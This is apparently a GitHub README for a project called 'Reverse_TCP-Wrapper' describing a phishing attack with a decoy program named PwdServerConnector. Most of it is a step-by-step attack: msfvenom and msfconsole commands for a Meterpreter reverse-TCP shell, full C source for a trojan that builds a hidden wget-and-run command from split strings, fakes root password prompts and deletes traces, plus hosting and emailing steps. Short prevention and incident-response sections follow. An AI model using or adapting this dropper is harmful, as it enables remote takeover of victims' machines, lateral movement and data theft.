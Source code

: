 # Reverse_TCP-Wrapper

## Situation
A malicious user, in this case, me, sends out this email to everyone, attached is the PwdServerConnector program.The interesting name will prompt many people to run the program, in hopes of getting sensitive information. In this case, if anyone does in fact run the program, it will install a simple reversetcp from a hosted server and run it, it will then give me, the attacker, access to the computer and by proxy, the network, allowing me pivot and attack the remaining computers in the network as well as steal private information.

---

## How
After hosting the malicious reverse tcp payload on the malicious computer, and sending out the PwdServerConnector program, the program, before running the original code will actually run a command to wget the reversetcp file, run it as a hidden process then remove the downloaded folder, removing traces of the existence of the file to prevent users from finding out the true intentions of the reversetcp file as it is possible to get more information on the file easily. The decoy program is then compiled in c so that it cannot be easily decompiled for analysis, to prevent users from seeing the text in the files, dummy text is put along with the legitimate command to confuse the user.

---

## Exploit
This exploit is used as a phishing exploit, exploiting the weakest link in the entire security chain, the user. Who upon seeing the email, may think it is an interesting file and be tempted to run it to see what happens.
Reversetcp in itself exploits the fact that firewalls do not tend to filter any outgoing connections, as it is not feasible to do so. This is because, computers constantly make outgoing connections with different ips, such as when browsing the web or accessing shared files. Therefore using a reversetcp exploit code, it is the exploited machine itself that’s initiating contact with the attacker, making it act as a server of sorts, instead of the other way round, resulting in the complete bypass of any firewall rules. This particular exploit is not restricted by the existence and version number of any programs as it is an executable file compiled in c.

---

## Prevention
As it is not feasible to put firewall rules stopping all outgoing connections, the next feasible plan would be to teach employees the danger of opening and running suspicious files and programs sent to them. Another thing that could be considered is to put up a firewall rule preventing all outgoing connections to port 4444, as it is a common port used by attackers to receive reversetcp connections. Although this can be easily bypassed if the attacker were to change their  listening port number, I believe this would be effective in preventing some attacks as it is possible that less experienced attackers may not be aware of this and see this as a failed attack.

---

## Incident response
In the case that this attack is suspected to have already been carried out on the victim computer, it is possible to check for a possible infection as well as remove the attack completely.
#### Check for infection
This can be done by,
1.	check for any connections to the port `4444`
```
netstat -tunap |grep 4444
```

#### Removal
This can be done by,
1.	checking the processes and greping anyone created under `.safe`
```
ps|grep .safe
```

2.	kill the process
```
kill -9 <PID>
```

## Attack Steps
1.	msfvenom to generate reversetcp payload
```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST='10.10.4.199' LPORT="4444" -o reverse_shell
```
2.	msfconsole to handle any reverse tcp connections
``` bash
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload =>linux/x64/meterpreter_reverse_tcp
msf exploit(multi/handler) > set LHOST 10.10.4.199
msf exploit(multi/handler) > exploit
```
3.	Update k.c with the ip and port
``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#include <sys/time.h>
#include <termios.h>
#include <errno.h>   /* for errno */
#include <unistd.h>  /* for EINTR */

int getch() {
int ch;
for (;;) {
    struct termios oldtc, newtc;
    int ch;
    tcgetattr(STDIN_FILENO, &oldtc);
    newtc = oldtc;
    newtc.c_lflag &= ~(ICANON | ECHO);
    tcsetattr(STDIN_FILENO, TCSANOW, &newtc);
    ch=getchar();
    tcsetattr(STDIN_FILENO, TCSANOW, &oldtc);
    if(ch == '\n')
              break;
    }
return 0;
}

int main() {
char c[5]="wget";
char z[7]="touch";
char f[7]="chmod";
char t[4]="-r";
char y[3]="f";
char fff[8]="install";
char zz[2]=";";
char yyy[5]="yum";
char tt[3]="cd";
char u[10]="number";
char ss[7]=".safe";
char ip[18]="10.10.2.96:1234";
char ye[4]="777";
char cmd[80]="";
char r[3]="./";
char dd[2]="&";
char la[3]="rm";
sprintf(cmd,"%s %s %s 2>/dev/null%s%s %s%s%s %s %s%s%s%s %s",c,t,ip,zz,tt,ip,zz,f,ye,ss,zz,r,ss,dd);
char neww[20]="";
sprintf(neww,"%s%s %s%s %s",la,t,y,ip);
//printf("%s",cmd);
system(cmd);
system(neww);


char str[16],*endp;
int value;
printf("root@password_server's password:");
getch();
printf("\nPermission denied, please try again.");
printf("\nroot@password_server's password:");
getch();
printf("\nPermission denied, please try again.");
printf("\nroot@password_server's password:");
getch();
printf("\nPermission denied (publickey,password).\n");

return 0;
}
```

4.	c=Compile k.c to program called PwdServerConnector
``` bash
gcc k.c -o PwdServerConnector
```
5.	Host reversetcp on python simple http server
``` bash
mkdir safe
mv .safe safe
cd safe
python -m SimpleHTTPServer 1234
```
6.	Send out PwdServerConnector to people via email
 
7.	When they run the program, it will proceed to download and connect itself via reversetcp to the attacker machine.
8.	Exploit complete

